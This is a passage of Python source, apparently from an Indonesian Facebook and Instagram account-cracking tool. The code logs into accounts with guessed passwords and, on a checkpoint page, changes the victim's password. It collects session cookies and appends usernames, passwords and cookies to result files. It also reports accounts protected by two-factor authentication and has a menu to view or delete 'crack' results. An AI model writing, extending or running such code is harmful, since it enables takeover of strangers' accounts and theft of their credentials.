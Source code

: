 					but2=["submit[Next]","nh","fb_dtsg","jazoest"]
					if "Buat Kata Sandi Baru" in re.findall("\<title>(.*?)<\/title>",str(ubahPw)):
						for b in resUbah("input"):
							dat2.update({b.get("name"):b.get("value")})
						dat2.update({"password_new":"".join(pwbaru)})
						an=session.post(url+link3.get("action"),data=dat2)
						coki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
						print("\r%s%s akun one tab, sandi berhasil di ubah \n *--> %s ◊ %s ◊ %s			"%(H,til,user,pwbaru[0],coki))
						#os.popen('play-audio dapet.mp3')
						open('OK/%s.txt' %(waktu), 'a').write(" *--> %s ◊ %s ◊ %s\n" % (user,pwbaru[0],coki))
						cek_apk(coki)
				else:
					print("\r%s%s akun one tab, silahkan anda login		"%(H,til))
					#os.popen('play-audio dapet.mp3')
					open('OK/%s.txt' %(waktu), 'a').write(" *--> %s ◊ %s ◊ %s\n" % (user,pw,coki))
					cek_apk(coki)
			elif "Masukkan Kode Masuk untuk Melanjutkan" in re.findall("\<title>(.*?)<\/title>",str(response)):
				print("\r%s• akun terpasang autentikasi dua faktor			"%(M))
			else:
				print("%s%s terjadi kesalahan"%(M,til))
		else:
			if "c_user" in session.cookies.get_dict():
				print("\r%s• akun tidak checkpoint, silahkan anda login "%(H))
				#os.popen('play-audio dapet.mp3')
				open('OK/%s.txt' %(waktu), 'a').write(" *--> %s ◊ %s\n" % (user,pw))
		for opsi in range(len(cek)):
			number +=1
			jalan ("  %s%s. %s%s"%(P,str(number),K,cek[opsi]))
	elif "login_error" in str(response):
		oh = run.find("div",{"id":"login_error"}).find("div").text
		print("%s• %s"%(M,oh))
	else:
		print("%s%s login gagal, silahkan cek kembali id dan kata sandi"%(M,til))
		
#HAPUS HASIL
def hapus_hasil():
	os.system('rm -rf CP/*.txt && OK/*.txt')
	os.system('rm -rf IG/*.txt')
	print ('');jeda(2)
	jalan (H+' √ berhasil menghapus hasil crack ');jeda(2)
	pilihan().menu()
	
# CEK HASIL
def hasill():
	print ("\n%s%s%s 01 %sCek hasil akun %sOK "%(U,til,P,O,H))
	print ("%s%s%s 02 %sCek hasil akun %sCP "%(U,til,P,O,K))
	print ("%s%s%s 00 %sKembali "%(U,til,M,O))
	
def cek_cek(rom):
	if rom in['']:
		print ('\n%s%s isi yang benar'%(M,til));jeda(2)
		pilihan().menu()
	elif rom in['1','01']:
		hasil_fb()
	elif rom in['2','02']:
		hasil_igehh()
	elif rom in['03','3']:
		hapus_hasil()
	elif rom in['0','00']:
		pilihan().menu()
	else:
		print ('\n%s%s isi yang benar'%(M,til));jeda(2)